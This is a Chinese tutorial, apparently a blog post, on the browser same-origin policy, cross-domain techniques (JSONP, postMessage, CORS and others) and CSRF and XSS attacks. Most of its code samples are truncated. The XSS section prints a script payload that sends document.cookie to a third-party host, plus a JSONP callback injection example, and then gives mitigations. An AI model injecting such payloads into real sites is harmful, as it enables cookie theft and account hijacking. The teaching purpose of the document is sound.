

跨域概念
举个简单的例子：
一个地址为URLA的页面A试图请求另一个地址为URLB的资源。
它们的地址（URLA/URLB）中主机名（域名）、协议、端口号，只要有一个不相同，就为不同的域（或源），即异源，注意即便两个不同的域名指向同一个ip地址，也是异源。
相对的，如果相同，即为浏览器的同源策略/SOP（Same origin policy），同源策略限制以下几种行为：
- Cookie、LocalStorage 和 IndexDB 无法读取
- DOM 和 Js对象无法获得
- AJAX 请求不能发送
跨域方案
JSONP
浏览器允许html标签从不同域名下加载静态资源，在此基础上，可通过动态创建script标签，请求一个带参数的网址实现跨域通信。
缺点是只能通过GET方式请求。
1 | // JavaScript |
document.domain
仅适用于主域相同，子域不同。可以共享Cookie。
www.example.com/a.html 和child.example.com/b.html相互之间的通信，两个页面都需要设置：document.domain = 'example.com';
1 | // 结合iframe实现更多跨域 |
window.name
适用于iframe嵌套。
window.name是在同一个浏览器窗口下打开的所有页面共享的字段，最多可支持2MB。可以通过在b.html中设置window.name的值，在a.html中取出改值使用。
1 | // www.domain1.com/a.html |
window.postMessage
postMessage是HTML5 XMLHttpRequest Level 2的新增API，下面为MDN给的示例。
otherWindow.postMessage(message, targetOrigin, [transfer])
- otherWindow:其他窗口的一个引用，比如iframe的contentWindow属性、执行window.open返回的窗口对象、或者是命名过或数值索引的window.frames。
- message:将要发送到其他 window的数据。
- targetOrigin:通过窗口的origin属性来指定哪些窗口能接收到消息事件，其值可以是字符串”*”（表示无限制）或者一个URI。
- transfer:是一串和message 同时传递的 Transferable 对象. 这些对象的所有权将被转移给消息的接收方，而发送一方将不再保有所有权。
1 | <!-- www.example1.com/a.html --> |
CORS
CORS即跨域资源共享（Cross-origin resource sharing）。详细介绍可参考跨域资源共享 CORS 详解。
普通的请求只需服务端设置Access-Control-Allow-Origin即可，前端无须设置。
带Cookie请求，前端常用设置：
1 | /* |
WebSocket
只要服务端支持就可以使用。
1 | // express |
跨域攻击
CSRF/XSRF攻击
示例如下，防止CSRF攻击的方法是referer过滤校验+token验证，即服务端检测JSON文件调用来源和检查token数据是否匹配。

XSS攻击
提交含有恶意脚本的数据到服务器，从而达到破坏页面甚至盗取cookie伪装登录等目的。
例如，在a.com/index.ftl中有如下代码：欢迎你，${username}，这时恶意网站b.com传递参数：username=<script>window.open(“www.b.com?param=”+document.cookie)</script>
这样就轻而易举地盗取了用户的cookie值了。
在jsonp跨域访问中，xss注入主要是callback参数注入，如：<script src="http://www.a.com/getData.do?callback=<script>alert('xss');</script>"></script>
防止措施是对参数进行校验过滤。
参考链接
https://segmentfault.com/a/1190000003784372
https://www.cnblogs.com/roam/p/7520433.html